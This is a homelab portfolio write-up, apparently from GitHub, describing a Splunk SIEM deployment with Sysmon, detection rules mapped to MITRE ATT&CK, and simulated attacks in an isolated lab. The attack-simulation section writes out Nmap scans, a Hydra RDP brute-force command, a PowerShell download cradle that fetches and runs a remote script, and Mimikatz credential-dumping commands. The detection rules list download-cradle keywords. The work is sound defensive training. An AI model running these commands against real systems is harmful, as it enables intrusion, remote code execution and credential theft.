






# Lab 01: Enterprise SIEM Deployment with Splunk

## Executive Summary

Deployed a production-grade Security Information and Event Management (SIEM) solution using Splunk Enterprise to monitor, detect, and respond to cybersecurity threats in a virtualized homelab environment. This project demonstrates critical Blue Team competencies including log aggregation, threat detection rule development, security analytics, and incident response workflows aligned with MITRE ATT&CK framework.

**Duration:** 6 hours | **Role:** SOC Analyst / Security Engineer | **Tools:** Splunk Enterprise, Sysmon, Kali Linux, Proxmox VE

---

## Technical Architecture

### Infrastructure Overview

```
┌─────────────────────────────────────────────────────────────────┐
│                    Proxmox Hypervisor Server                    │
│                   AMD Ryzen 7 5700G | 32GB RAM                  │
├─────────────────────────────────────────────────────────────────┤
│                                                                 │
│  ┌──────────────────┐  ┌──────────────────┐  ┌──────────────┐   │
│  │  Splunk Server   │  │ Windows Victim   │  │ Existing     │   │
│  │  Ubuntu 22.04    │  │  + Sysmon        │  │ Services:    │   │
│  │  4vCPU | 8GB RAM │  │  2vCPU | 4GB RAM │  │ - OMV (NAS)  │   │
│  │  100GB Storage   │  │  60GB Storage    │  │ - Jellyfin   │   │
│  │                  │  │                  │  │ - NPM        │   │
│  │  Services:       │  │  Forwarder:      │  │              │   │
│  │  - Splunk Web    │  │  - Event Logs    │  │              │   │
│  │    :8000         │  │  - Sysmon Logs   │  │              │   │
│  │  - Indexer       │  │  - PowerShell    │  │              │   │
│  │  - Receiver:9997 │  │  - Security Logs │  │              │   │
│  └────────┬─────────┘  └────────┬─────────┘  └──────────────┘   │
│           │                     │                               │
└───────────┼─────────────────────┼───────────────────────────────┘
            │                     │
            │    Network Layer    │
            │  Lab: 10.0.0.0/24   │
            │                     │
    ┌───────┴─────────────────────┴────────┐
    │                                      │
┌───▼─────────────────┐          ┌─────────▼────────────┐
│  Analyst Workstation│          │  Kali Linux Attack   │
│  (Management)       │          │  Box (Physical Host) │
│  - Splunk Web UI    │          │  - Nmap              │
│  - Investigations   │          │  - Hydra             │
└─────────────────────┘          │  - Metasploit        │
                                 │  - Custom Payloads   │
                                 └──────────────────────┘
```

### Component Specifications

| Component                      | Resource Allocation        | Purpose                                                              |
| ------------------------------ | -------------------------- | -------------------------------------------------------------------- |
| **Splunk Enterprise**          | 4 vCPU, 8GB RAM, 100GB SSD | Centralized log collection, indexing, correlation, and visualization |
| **Windows Victim**             | 2 vCPU, 4GB RAM, 60GB SSD  | Telemetry generation, attack target, endpoint log source             |
| **Kali Linux (Physical)**      | External machine           | Attack simulation, red team activities                               |
| **Splunk Universal Forwarder** | Lightweight agent          | Log collection and forwarding from endpoints                         |
| **Sysmon**                     | Kernel-level monitor       | Advanced system activity logging (process, network, file)            |

### Network Configuration

**Isolated Lab Setup (vmbr1):**
- **Lab Network:** 10.0.0.0/24 (Proxmox internal bridge)
- **Production Network:** 192.168.4.0/24 (vmbr0)
- **Splunk Server:** 10.0.0.10 (vmbr1)
- **Windows Victim:** 10.0.0.20 (vmbr1)
- **Kali Attack Box:** 192.168.4.x (VirtualBox bridged, route to 10.0.0.0/24 via 192.168.4.10)
- **Lab Gateway:** 10.0.0.1 (Proxmox iptables NAT)
- **Firewall Rules:** UFW configured on Splunk server (8000, 8089, 9997)

---

## Implementation Phases

### Phase 1: SIEM Infrastructure Deployment

**Objective:** Establish centralized logging infrastructure

**Steps Completed:**
1. Provisioned Ubuntu Server 22.04 LTS VM on Proxmox hypervisor
2. Installed Splunk Enterprise 9.x with Free License (500MB/day ingestion limit)
3. Configured receiving port (9997) for Universal Forwarders
4. Hardened system with UFW firewall rules
5. Enabled Splunk boot-start persistence

**Key Configurations:**
```bash
# Splunk receiving configuration
/opt/splunk/bin/splunk enable listen 9997 -auth admin:password

# Firewall rules
sudo ufw allow 8000/tcp   # Web UI
sudo ufw allow 9997/tcp   # Forwarder receiver
```



---

### Phase 2: Endpoint Telemetry Collection

**Objective:** Instrument Windows endpoints for comprehensive security visibility

**Steps Completed:**
1. Deployed Windows Enterprise VM as monitored endpoint
2. Installed and configured Sysmon using SwiftOnSecurity configuration baseline
3. Enabled advanced Windows auditing policies for security events
4. Configured PowerShell Script Block Logging (critical for attack detection)
5. Deployed Splunk Universal Forwarder with custom inputs.conf

**Log Sources Configured:**

| Log Source | Index | Event Volume | Key Use Cases |
|------------|-------|--------------|---------------|
| Windows Security Events | windows_security | ~500 events/min | Authentication, privilege escalation, account lockouts |
| Sysmon Operational | windows_sysmon | ~1000 events/min | Process creation, network connections, file modifications |
| PowerShell Operational | windows_powershell | ~50 events/min | Script execution, command-line activity, obfuscation detection |
| Windows System | windows_system | ~100 events/min | Service changes, system errors |

**Advanced Auditing Enabled:**
```powershell
# Process creation auditing (command-line logging)
auditpol /set /subcategory:"Process Creation" /success:enable /failure:enable

# Credential access monitoring
auditpol /set /subcategory:"Sensitive Privilege Use" /success:enable /failure:enable
```



---

### Phase 3: Threat Detection Rule Development

**Objective:** Create detection logic for common attack patterns

**Detection Rules Implemented:**

#### 1. Brute Force Attack Detection
**MITRE ATT&CK:** T1110.001 - Brute Force: Password Guessing

```spl
index=windows_security EventCode=4625 
| bucket _time span=5m 
| stats count as attempts, values(TargetuserName) as targeted_accounts by _time, src_ip 
| where attempts > 5
| eval severity="HIGH", description="Multiple failed authentication attempts detected"
| table _time, src_ip, targeted_accounts, attempts, severity
```

**Detection Logic:**
- Monitors for 5+ failed logon attempts (EventCode 4625) within 5-minute window
- Aggregates by source IP and targeted account names
- Triggers high-severity alert for SOC investigation

---

#### 2. PowerShell Download Cradle Detection
**MITRE ATT&CK:** T1059.001 - Command and Scripting Interpreter: PowerShell

```spl
index=windows_powershell EventCode=4104
(ScriptBlockText="*DownloadString*" OR ScriptBlockText="*DownloadFile*" OR
 ScriptBlockText="*WebClient*" OR ScriptBlockText="*IEX*" OR
 ScriptBlockText="*Invoke-Expression*")
| rex field=ScriptBlockText "(?<url>https?://[^\s)]+)"
| table _time, Computer, User, url, ScriptBlockText
| eval severity="CRITICAL", attack_technique="T1059.001"
```

**Detection Logic:**
- Identifies PowerShell script blocks containing remote download functions
- Extracts URLs from script content for IOC collection
- Critical severity due to common malware delivery method

---

#### 3. Credential Dumping Detection
**MITRE ATT&CK:** T1003.001 - OS Credential Dumping: LSASS Memory

```spl
index=windows_sysmon EventCode=10 TargetImage="C:\\Windows\\System32\\lsass.exe"
| stats count by SourceImage, SourceUser, GrantedAccess
| where GrantedAccess="0x1010" OR GrantedAccess="0x1410" OR GrantedAccess="0x147a"
| eval severity="CRITICAL", attack_technique="T1003.001"
| table SourceUser, SourceImage, GrantedAccess, count, severity
```

**Detection Logic:**
- Monitors Sysmon EventCode 10 (ProcessAccess) targeting LSASS process
- Filters for specific access rights commonly used by Mimikatz and similar tools
- Immediate critical alert for potential credential theft

---

#### 4. Network Reconnaissance Detection
**MITRE ATT&CK:** T1046 - Network Service Discovery

```spl
index=windows_sysmon EventCode=3
| stats dc(DestinationPort) as unique_ports, count as connections by SourceIp, Image
| where unique_ports > 20 OR connections > 100
| eval severity="MEDIUM", attack_technique="T1046"
| table SourceIp, Image, unique_ports, connections, severity
```

**Detection Logic:**
- Analyzes Sysmon network connection events (EventCode 3)
- Identifies scanning behavior (connections to 20+ unique ports)
- Correlates with process responsible for connections

---

### Phase 4: Attack Simulation & Validation

**Objective:** Validate detection capabilities using real-world attack techniques

#### Attack Scenario 1: Network Reconnaissance
**Tools Used:** Nmap from Kali Linux

```bash
# Comprehensive port scan
sudo nmap -sS -p- -T4 10.0.0.20 -oN win10_full_scan.txt

# Service version detection
sudo nmap -sV -p 135,139,445,3389,5985 10.0.0.20
```

**Detection Outcome:**
- Successfully detected in Splunk via Sysmon EventCode 3 (network connections)
- Alert triggered for high port density from single source
- MTTD (Mean Time To Detect): <2 minutes


---

#### Attack Scenario 2: RDP Brute Force
**Tools Used:** Hydra from Kali Linux

```bash
# RDP credential brute force
hydra -l labuser -P /usr/share/wordlists/rockyou.txt rdp://10.0.0.20 -t 4
```

**Detection Outcome:**
- 25 failed authentication attempts logged (Windows EventCode 4625)
- Brute force detection rule triggered after 5th attempt
- Source IP 10.0.0.50 identified and correlated with attack activity
- MTTD: <30 seconds from attack initiation


---

#### Attack Scenario 3: Malicious PowerShell Execution
**Tools Used:** Custom PowerShell payload served from Kali HTTP server

```powershell
# Simulated malware download and execution
IEX (New-Object Net.WebClient).DownloadString('http://10.0.0.50/info_gather.ps1')
```

**Detection Outcome:**
- PowerShell Script Block Logging captured full command (EventCode 4104)
- Download cradle detection rule immediately flagged activity
- URL extracted for threat intelligence correlation: `http://10.0.0.50/info_gather.ps1`
- Process creation logged via Sysmon EventCode 1
- Network connection to C2 server logged via Sysmon EventCode 3
- MTTD: <15 seconds


---

#### Attack Scenario 4: Credential Dumping
**Tools Used:** Mimikatz

```
privilege::debug
sekurlsa::logonpasswords
```

**Detection Outcome:**
- Sysmon EventCode 10 captured LSASS process access
- GrantedAccess rights matched known Mimikatz patterns (0x1010)
- Critical detection generated for SOC escalation
- Source process identified: `mimikatz.exe`
- MTTD: Immediate (detected on next scheduled report run)

In this case, the attack was detected but also blocked - Mimikatz failed to dump credentials due to kernel-level protection (LSA Protection).





---

### Phase 5: Security Operations Center (SOC) Dashboard

**Objective:** Create actionable visibility for security monitoring

**Dashboard Components:**

1. **Failed Authentication Timeline** (Credential Access Monitoring)
   - 24-hour trend of failed logons by source IP
   - Identifies brute force patterns and compromised credentials

2. **Top Targeted Accounts** (Account Enumeration Detection)
   - Bar chart of most frequently targeted user accounts
   - Highlights spray attacks and reconnaissance

3. **PowerShell Execution Heatmap** (Execution Layer Visibility)
   - Hourly breakdown of PowerShell script executions
   - Detects anomalous scripting activity outside business hours

4. **Network Connections by Port** (C2 Communication Detection)
   - Distribution of outbound connections by destination port
   - Identifies non-standard ports used for command and control

5. **High-Risk Process Execution** (Malware Detection)
   - Real-time table of suspicious process creations
   - Filters for unsigned executables, unusual parent processes

6. **Critical Security Events Stream** (Real-Time Monitoring)
   - Live feed of authentication failures, privilege escalations, LSASS access
   - Enables immediate analyst response



---

## MITRE ATT&CK Mapping

Comprehensive mapping of detected techniques to adversary tactics:

| Tactic | Technique ID | Technique Name | Data Source | Splunk Detection |
|--------|-------------|----------------|-------------|------------------|
| **Reconnaissance** | T1046 | Network Service Discovery | Sysmon EventCode 3 | High port density from single source IP |
| **Credential Access** | T1110.001 | Brute Force: Password Guessing | Windows Security EventCode 4625 | 5+ failed logons in 5-minute window |
| **Credential Access** | T1003.001 | OS Credential Dumping: LSASS | Sysmon EventCode 10 | LSASS process access with specific rights |
| **Execution** | T1059.001 | PowerShell Interpreter | Windows PowerShell EventCode 4104 | Script block contains download cradles |
| **Command and Control** | T1071.001 | Application Layer Protocol: Web | Sysmon EventCode 3 | PowerShell HTTP/HTTPS connections |
| **Defense Evasion** | T1027 | Obfuscated Files or Information | Windows PowerShell EventCode 4104 | Encoded PowerShell commands |
| **Privilege Escalation** | T1078 | Valid Accounts | Windows Security EventCode 4672 | Special privileges assigned to user accounts |



---

## Incident Response Workflow

Documented SOC investigation process for triggered alerts:

### Example: Investigating Brute Force Alert

**Alert Details:**
- Source IP: 10.0.0.50
- Target Account: labuser
- Failed Attempts: 25
- Time Window: 2026-01-27 14:32:00 - 14:37:00

**Investigation Steps:**

1. **Initial Triage (T+0 to T+5 minutes)**
```spl
index=windows_security src_ip="10.0.0.50" earliest=-1h
| stats count by EventCode, TargetuserName, Logon_Type
```
*Outcome:* Confirmed brute force pattern, no successful authentications

2. **Contextual Analysis (T+5 to T+10 minutes)**
```spl
index=windows_sysmon SourceIp="10.0.0.50" OR DestinationIp="10.0.0.50"
| table _time, EventCode, Image, DestinationPort, CommandLine
```
*Outcome:* Identified source as Kali Linux system, RDP-specific attack (port 3389)

3. **Impact Assessment (T+10 to T+15 minutes)**
```spl
index=windows_security EventCode=4624 src_ip="10.0.0.50"
| table _time, TargetuserName, Logon_Type, src_ip
```
*Outcome:* No successful authentications, attack unsuccessful

4. **Remediation Actions:**
   - Block source IP 10.0.0.50 at firewall (simulated in lab)
   - Enable account lockout policy (3 failed attempts)
   - Notify affected user (labuser) of attack attempt
   - Document IOC (IP address) for threat intelligence

5. **Documentation:**
   - Incident ticket created with full timeline
   - IOCs added to blocklist
   - Lessons learned: RDP should be restricted to VPN-only access


---

## Key Learnings & Challenges

### Technical Insights

1. **Sysmon is Critical for Endpoint Visibility**
   - Windows native logging alone is insufficient for detecting sophisticated attacks
   - Sysmon EventCode 10 (ProcessAccess) was essential for Mimikatz detection
   - SwiftOnSecurity configuration provides excellent signal-to-noise ratio

2. **PowerShell Logging Captures Living-off-the-Land Attacks**
   - Script Block Logging (EventCode 4104) revealed exact attacker commands
   - Detected fileless malware techniques that evade traditional AV
   - Module Logging complemented Script Block Logging for comprehensive coverage

3. **Alert Tuning is Essential**
   - Initial brute force threshold (3 attempts) generated excessive false positives
   - Increased to 5 attempts with 5-minute time window for better accuracy
   - Real-world environments require baseline analysis before alert deployment

### Challenges Encountered

1. **Resource Constraints**
   - 32GB RAM system provided ample headroom for Splunk, lab VMs, and existing services running concurrently
   - Thin-provisioned storage and conservative CPU allocation kept overhead low
   - Sufficient capacity remains for future lab expansion (ELK comparison, AD lab)

2. **Free License Limitations**
   - 500MB/day ingestion cap required selective log collection
   - Prioritized security-relevant logs (Security, Sysmon, PowerShell)
   - Disabled verbose Application logs to stay within quota
   - No real-time alerting available - detection queries saved as Reports and monitored via SOC dashboard
   - In an enterprise environment, these would be configured as automated real-time alerts with SOAR integration

3. **Network Configuration**
   - Kali Linux (on production network 192.168.4.x) required a static route to reach lab VMs on the isolated vmbr1 network (10.0.0.0/24)
   - Resolved by adding route on Kali: `sudo ip route add 10.0.0.0/24 via 192.168.4.10`
   - Lab isolation via vmbr1 protects production services (OMV, Jellyfin) from attack simulation traffic

### BTL1 Certification Relevance

This lab directly addresses **40% of BTL1 exam domains:**

- **SIEM (20%):** Splunk deployment, SPL query development, detection rule creation, log parsing
- **Digital Forensics (20%):** Timeline analysis, artifact collection, evidence preservation

**Skills Demonstrated:**
- Log source identification and collection
- Security event correlation across multiple data sources
- Threat hunting using SPL queries
- Incident detection and response workflows
- MITRE ATT&CK framework application

---

## Future Enhancements

1. **Expand Log Sources**
   - Add Linux endpoints (SSH authentication, sudo commands, cron jobs)
   - Integrate firewall/router logs (pfSense or OPNsense)
   - Collect DNS query logs for C2 domain detection

2. **Advanced Detection Engineering**
   - Implement behavioural analytics (ML-based anomaly detection)
   - Create correlation searches (multi-stage attack detection)
   - Deploy Splunk Enterprise Security Content Update (ESCU) app

3. **Security Orchestration**
   - Integrate SOAR platform (Shuffle or Phantom)
   - Automate response actions (firewall blocks, user notifications)
   - Develop playbooks for common incident types

4. **Threat Intelligence Integration**
   - Ingest MISP threat feeds
   - Correlate alerts with known IOCs
   - Implement reputation-based blocking

5. **Red vs Blue Exercise**
   - Schedule weekly attack simulations
   - Measure MTTD and MTTR metrics
   - Conduct tabletop exercises for incident response practice

---

## Portfolio Highlights

**Demonstrable Skills for SOC Analyst Roles:**

- Deployed enterprise SIEM solution from scratch
- Created 4 custom detection rules (saved as reports) mapped to MITRE ATT&CK
- Investigated and documented real security incidents
- Built operational dashboards for security monitoring
- Validated detection coverage through red team simulation
- Documented technical implementations with professional clarity

**Professional Value:**
This project demonstrates practical, hands-on experience with:
- Splunk (industry-leading SIEM platform)
- Windows security logging and Sysmon
- Threat detection engineering
- Incident response workflows
- Blue Team methodologies

**Quantifiable Outcomes:**
- 4 attack techniques detected and analysed
- 100% detection rate for simulated attacks
- <2 minute average MTTD across all scenarios
- 6-panel SOC dashboard with real-time monitoring
- Complete incident documentation for portfolio review

---

## References & Resources

**Official Documentation:**
- [Splunk Enterprise Documentation](https://docs.splunk.com/)
- [Splunk Search Processing Language (SPL) Reference](https://docs.splunk.com/Documentation/Splunk/latest/SearchReference)
- [Windows Event Log Encyclopedia](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/)
- [Sysmon Documentation](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)

**MITRE ATT&CK Framework:**
- [ATT&CK Navigator](https://attack.mitre.org/)
- [ATT&CK for Splunk App](https://splunkbase.splunk.com/app/4617/)

**Community Resources:**
- [SwiftOnSecurity Sysmon Configuration](https://github.com/SwiftOnSecurity/sysmon-config)
- [Splunk Boss of the SOC (BOTS) Dataset](https://github.com/splunk/botsv3)
- [Blue Team Level 1 Certification](https://www.securityblue.team/why-btl1/)

**Training Platforms:**
- [Splunk Fundamentals 1 (Free Course)](https://education.splunk.com/)
- [CyberDefenders Blue Team Labs](https://cyberdefenders.org/)
- [TryHackMe SOC Level 1 Path](https://tryhackme.com/path/outline/soclevel1)

---

## Project Metadata

**Author:** Harry Miles
**GitHub Repository:** [hazzugot/HomelabRYZEN](https://github.com/hazzugot/HomelabRYZEN)
**Lab Number:** 01 - SIEM Deployment with Splunk
**Completion Date:** 2026-02-13
**Environment:** Proxmox VE 8.x, Splunk Enterprise 9.x, Windows 11, Kali Linux
**Total Project Time:** 6 hours

**Tags:** #SIEM #Splunk #BlueTeam #ThreatDetection #IncidentResponse #BTL1 #Homelab #CybersecurityProjects

---

## Contact & Collaboration

For questions, feedback, or collaboration opportunities:
- **GitHub:** [hazzugot](https://github.com/hazzugot)
- **LinkedIn:** [Harry Miles](https://www.linkedin.com/in/harry-miles-18ab53234)
- **TryHackMe:** [hazmiles11](https://tryhackme.com/p/hazmiles11)

**Open to:**
- Technical reviews and feedback on detection logic
- Collaboration on advanced Blue Team projects
- Peer collaboration and knowledge sharing with fellow SOC analysts
- SOC Analyst / Security Engineer opportunities

---

*This documentation represents real-world, hands-on experience with security operations and is maintained as part of a professional cybersecurity portfolio for job applications and continuous learning.*
